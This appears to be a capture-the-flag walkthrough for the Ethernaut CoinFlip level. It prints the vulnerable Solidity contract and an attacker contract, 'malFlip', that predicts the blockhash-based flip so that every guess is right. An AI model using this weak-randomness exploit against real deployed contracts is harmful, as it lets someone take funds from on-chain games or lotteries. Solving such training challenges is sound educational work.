 
we are tasked to guess the coin toss 10 times in a row. The below contract is the one loaded into remixIDE. 

loading from github
```
https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/CoinFlip.sol
```

in remix use the injected Web3.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

the malicious contract is rerun alongside the vulnerable contract on remix. 

in remix deploy malFlip
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract malFlip {
  // use the ethernaut account info
  CoinFlip public oc = CoinFlip(0x15787F394B450fD7fFD754e4057C5E18c13d75fF);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function attackFlip() public {

    // get the flip guess
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool guess = coinFlip == 1 ? true : false;

    if (lastHash == blockValue) {
      revert();
    }
    lastHash = blockValue;

    // always correct
    oc.flip(guess);

  }

}
```

basically when we run the original contract and then run the attackFlip, We will always guess right. 

to check if we guessed correctly. run in chrome console like before.
```
await contract.consecutiveWins().then(x => x.toNumber())
```